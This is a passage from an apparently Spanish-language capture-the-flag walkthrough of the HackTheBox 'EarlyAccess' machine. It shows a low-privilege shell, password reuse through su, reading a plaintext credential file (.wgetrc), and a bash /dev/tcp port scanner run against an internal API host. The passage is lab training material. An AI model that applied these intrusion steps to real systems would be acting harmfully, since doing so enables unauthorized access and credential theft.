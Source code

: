 ```bash
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ cd /home
www-data@webserver:/home$ ls
www-adm
www-data@webserver:/home$ cd www-adm
www-data@webserver:/home/www-adm$ ls -la
drwxr-xr-x 2 www-adm www-adm 4096 Feb 14 20:41 .
drwxr-xr-x 1   root   root   4096 Feb 14 20:41 ..
drwxrwxrwx 1   root   root   4096 Feb 9  20:41 .bash_history -> /dev/null
-rw-r--r-- 1 www-adm www-adm  220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 www-adm www-adm 3526 Apr 18  2019 .bashrc
-rw-r--r-- 1 www-adm www-adm  887 Apr 18  2019 .profile
-r-------- 1 www-adm www-adm   33 Feb 14 20:41 .wgetrc
www-data@webserver:/home/www-adm$ cat .wgetrc
cat: .wgetrc: Permission denied
```

Vemos si las credenciales anteriores en <i>https://dev.earlyaccess.htb</i> son reutilizables.

```bash
www-data@webserver:/home/www-adm$ su www-adm
Password:
www-adm@webserver:~$
```

Estando como el usuario <i>www-adm</i> vemos si podemos ver <i>cat ~/.wgetrc</i>

```bash
www-adm@webserver:$ cat ~/.wgetrc
user=api
password=s3Cur3_API_PW!
www-adm@webserver:$
```

Ahora, utilizando nc, verificaremos si existe alguna máquina con el nombre <i>API</i>

```bash
www-adm@webserver:$ nc API 80
API [172.18.0.101] 80 (http) : Connection refused
```

y si existe tal máquina lo que no sabemos es que puertos tiene abiertos para
ello crearemos un escáner en <i>/tmp</i>

```bash
for port in $(seq 1 65535); do
timeout 1 bash -c "echo '' > /dev/tcp/172.18.0.101/$port" 2>/dev/null && echo "[+] $port - Open" &
done; wait
```

Ejecutamos nuestro script...

```bash
www-adm@webserver:/tmp$ ./scan.sh
[+] 5000 - Open
```

Observamos el puerto 5000 abierto, intentaremos descargarlo...
